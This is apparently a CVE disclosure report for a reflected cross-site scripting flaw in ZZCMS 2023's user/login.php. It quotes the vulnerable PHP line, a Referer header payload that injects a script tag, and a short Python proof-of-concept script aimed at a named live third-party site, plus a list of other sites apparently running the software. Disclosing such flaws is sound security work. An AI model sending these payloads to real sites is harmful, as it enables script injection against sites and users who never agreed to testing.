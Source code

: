 # ZZCMS 2023 反射型XSS user/login.php

## CVE-ID

**CVE-2024-43009**

## Vulnerability type 

Cross Site Scripting (XSS)

## Vendor of the product(s) info

http://www.zzcms.net/about/download.html
## Affected product(s)/code base info

## Product	* Version	

ZZCMS
<=2023(latest)

## Optional

Has vendor confirmed or acknowledged the vulnerability? No

## Attack type 

Remote

Information Disclosure

## Affected component(s)

```
File: user/login.php
Line: 24
Vulnerable Code:
$strout = str_replace("{#fromurl}", @$_SERVER['HTTP_REFERER'], $strout);
```



## Attack vector(s)

```
Type: Reflected Cross-Site Scripting (XSS)
Exploit: An attacker can craft a malicious URL that includes a specially crafted Referer header. When a victim clicks on this URL, the malicious script embedded in the Referer header will be executed in the context of the victim's browser.
Example:
Referer: "/></td><ScRipt>alert(1)</ScRipt><td
```



## Suggested description of the vulnerability for use in the CVE

```
A reflected cross-site scripting (XSS) vulnerability exists in user/login.php at line 24. The application directly inserts the value of the HTTP_REFERER header into the HTML response without proper sanitization. An attacker can exploit this vulnerability by tricking a user into visiting a specially crafted URL, which includes a malicious Referer header. This can lead to the execution of arbitrary JavaScript code in the context of the victim's browser, potentially resulting in session hijacking, defacement, or other malicious activities.
```



## Discoverer(s)/Credits 

GKDf1sh



## Reference(s) 

```
https://demo.zzcms.com
https://www.88zsw.com
http://www.818yyzs.com
https://www.qibai.cc
http://www.weixumu.cn
http://www.eshouyao.com
http://www.66988.tv/
http://www.dl580.tv/
```



## Additional information

```python
You can use hackbar to add header Referer: "/></td><ScRipt>alert(1)</ScRipt><td ,or use python below

import requests

url = "https://www.88zsw.com/user/login.php"

headers = {
    "Referer": '"/></td><ScRipt>alert(1)</ScRipt><td'
}

response = requests.get(url, headers=headers)

print(response.text)

if "<ScRipt>alert(1)</ScRipt>" in response.text:
    print("XSS yes")
```

